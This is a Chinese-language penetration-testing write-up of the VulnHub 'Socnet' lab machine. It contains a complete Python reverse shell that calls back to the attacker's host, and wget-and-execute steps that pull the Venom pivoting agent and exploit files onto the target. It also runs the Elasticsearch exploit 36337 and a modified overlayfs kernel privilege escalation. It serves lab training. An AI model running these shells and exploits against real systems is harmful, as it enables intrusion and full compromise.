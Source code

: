﻿---
title: Chapter1_Medium_Socnet
categories:
- Network_Security
- Vulnhub
- Chapter1
tags:
- Network_Security
- Vulnhub
date: 2024-01-10 13:49:48
---


# Socnet 打靶学习记录（考研痛苦后的第一篇复健）

## 1. 过程记录

### 1.1 外围探测与信息收集

1. 同一内网下直接使用 arp-scan 来进行主机发现

2. nmap 扫描端口，发现其开放端口 5000：
    `nmap -Pn -sV 192.168.0.104 -p 1-65535`

3. Web 页面没有可以利用的点，从而进行目录扫描，最终发现 /admin 代码测试界面：
    `dirsearch -u http://192.168.0.104:5000`

4. 根据 nmap 结果，判断其是一个基于 Python 的 Web 程序，使用 Python 反弹（百度） WebShell：
    `nc -lvvp 4444 # 监听 4444 端口`

    ```python
    # Python 反弹 Shell 代码
    import socket,subprocess,os
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect(("192.168.0.2",4444))
    os.dup2(s.fileno(),0)
    os.dup2(s.fileno(),1)
    os.dup2(s.fileno(),2)
    p=subprocess.call(["/bin/sh","-i"])
    ```

### 1.2 内部信息收集

1. 进入系统后进行信息收集，发现是 docker 容器。判断是否真的是 docker 容器：

    1. `ls /.dockerenv` 文件是否存在
    2. `cat /proc/1/cgroup` 文件是否都是 docker 文件
        1. `/proc/1/cgroup` 的含义
        2. 存放的都是 docker 的 hash 值
2. 查看网络，发现还有内网地址，用 shell 脚本命令可以用来暂时探测 172 内网网段：
    `for i in $(seq 1 255); do ping -c 1 172.17.0.$i; done`

### 1.3 内网穿透与扫描

1. 想进一步进行渗透的话，需要内网穿透，这里使用 Venom 进行渗透。
    kali 监听 9999 并开启 http 服务：

    ```bash
    ./admin_linux_x64 -lport 9999
    python3 -m http.server 80
    ```

2. 靶机通过 wget 下载客户端程序，赋予权限并反向链接
    `wget http://192.168.0.2（kali 的 ip）/agent_linux_x64`

3. 靶机赋予权限并反向链接
    ```bash
    chmod +x agent_linux_x64
    ./agent_linux_x64 -rhost 192.168.0.2（kali ip） -rport 9999
    ```

4. kali 进入节点中并开启 socks5 代理：
    ```bash
    show # 查看节点
    goto 1 # 进入节点 1
    socks 1080 # 监听 1080 端口
    ```

5. 使用 proxychains4 网络代理工具，设置代理端口
    `vim /etc/proxychains4.conf`
    同时别忘了最后一行改为：
    `socks5 127.0.0.1 1080`

6. 接着就是扫内网了：
    `proxychains nmap -Pn -sV -p 1-65535 172.17.0.1-3`

### 1.4 横向移动与 EXP 的使用

1. 通过浏览器设置 socks5 代理访问 172.17.0.1:5000 可知这个 ip 是 docker 对内 ip。 最终172.17.0.3 容器中的 9200 端口开放了 Elasticsearch REST API 服务，运用 metasploit 找 exp 进行攻击。
    `searchsploit Elasticsearch`

2. 先尝试第一个攻击脚本：
    ```bash
    cp /usr/share/exploitdb/exploits/linux/remote/36337.py /home/hacker # 先将 exp 拷贝出来
    # 查看 exp 发现是 python2 的脚本，因此使用 python2 执行
    python2 36337.py
    ```

3. 拿到第二个容器的 root 权限，信息收集后，看到其 passwords 文件中有用户名和密码的 hash 值，需要进行 MD5 破解。

4. 破解后，用密码通过 ssh 登录到靶机（注意这是已经不是在容器中了，而是在靶机中）：
    `ssh john@192.168.0.104（靶机 ip）`

### 1.5 提权与 EXP 的修改

1. 提权

    1. 先试试 sudo su
    2. 利用内核提权

2. 利用内核提权：
      `search linux 3.13`

3. 还是先查看 exp 的使用方法，简略阅读 exp 源码，然后执行。（这里使用的是 37292（Linux Kernel 3.13.0 < 3.19 (Ubuntu 12.04/14.04/14.10/15.04) - 'overlayfs' Local Privilege Escalation），对于 C 语言的 exp，靶机没有 gcc，kali 需要编译成 elf 文件然后传过去。

4. 传过去执行还是报错，源码中其实有段代码：
    `lib = system("gcc -fPIC -shared -o....")`
    exp 过程中使用到了 gcc，而靶机本身是没有 gcc 的，因此需要手动执行，并将文件放到靶机对应的地方。

5. 修改 exp，为：
      ![image-20240108115350035](image-20240108115350035.png)
      将其中涉及 gcc 编译生成 ofs-lib.so 共享文件的代码给删掉。

6. 接着 `locate ofs-lib.so` 查看 kali 上是否已经有该文件，没有就按照原代码那样生成一个 ofs-lib.so。

7. 编译修改后的 37292，将生成的 exp 和 ofs-lib.so 传到靶机上，同时注意要将 ofs-lib.so 放到靶机的 tmp 目录：
    ```bash
    gcc 37292.c -o exp
    cp /usr/share/metasploit-framework/data/exploits/CVE-2015-1328/ofs-lib.so . # 将 ofs-lib.so 拿过来
    # 通过 http 服务，用 wget 将 exp 和 ofs-lib.so 传到靶机的 /tmp 上
    # 靶机执行：
    chmod +x exp
    ./exp
    ```

    PS：[高版本下 kali gcc 的 glibc 指定版本的编译问题](#2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）)

## 2. 知识点总结

### 2.1 一些细节

1. 同一内网下 arp 的扫描要更快。
2. docker 容器的判断。
3. Venom 内网穿透工具的使用
4. 每次使用 EXP 之前尽量大概浏览一下 EXP 的源码

### 2.2 简单总结一下渗透流程

1. 扫端口和服务，站点的信息收集
2. 访问页面查看利用点、路径爆破
3. 内网穿透与扫描，横向移动与容器逃脱
4. 提权

### 2.3 高版本下 kali gcc 的 glibc 指定版本的编译问题（执行 elf 文件时报错：version `GLIBC_2.34‘ not found）

  1. 报错需要 GLIBC_2.34，那就去下载 GLIBC_2.34。

  2. 解决方法的来源：

      > https://blog.csdn.net/weixin_65527369/article/details/127973141
      >
      > https://blog.csdn.net/weixin_49764009/article/details/124970461

  3. 先下载 glibc-all-in-one 工具：
      `git clone https://github.com/matrix1001/glibc-all-in-one.git`

  4. 根据工具的 readme 来使用（要在 root 的权限下执行）：
      ```bash
      cd glibc-all-in-one/
      python3 update_list # 更新列表
      cat list 或者 old_list # 查看可以安装的 glibc 版本
      ./download 具体版本的 gblic
      ```

  5. 配置 patchelf（如果需要 kali 执行 elf 文件时需要配置，这里是靶机执行，应该可以不用安装）
      ```bash
      git clone https://github.com/NixOS/patchelf.git
      cd patchelf
      ./bootstrap.sh 
      ./configure
      make
      make check
      sudo make install
      ```

  6. kali 指定 glibc 版本并编译 poc：
      ```bash
      gcc -Wl,-rpath="/tmp/exp_package/2.34-0ubuntu3_amd64/",-dynamic-linker="/tmp/exp_package/2.34-0ubuntu3_amd64/ld-linux-x86-64.so.2" -s 37292.c -o exp # 注意没有空格，-rpath 和 -dynamic-linker 之间不能有空格！
      ```

  7. 注意编译链接 so 的路径是绝对路径，因此靶机上也要有相应的文件路径：
      ```bash
      # 靶机上
      mkdir /tmp/exp_package # 要求 so 文件路径保持一致
      cd /tmp/exp_package
      wget -r -c -nH -np http://192.168.0.2(kali)/2.34-0ubuntu3_amd64 # 把整个文件夹都下载下来
      chmod +x -R ./2.34-0ubuntu3_amd64 # 将 glibc 所有文件的权限进行修改，不然无法执行 exp
      ```

  8. 这时再执行 exp 即可。

  9. TODO: gcc 的 `-rpath` 和 `-dynamic-linker` 应该可以使用相对路径。
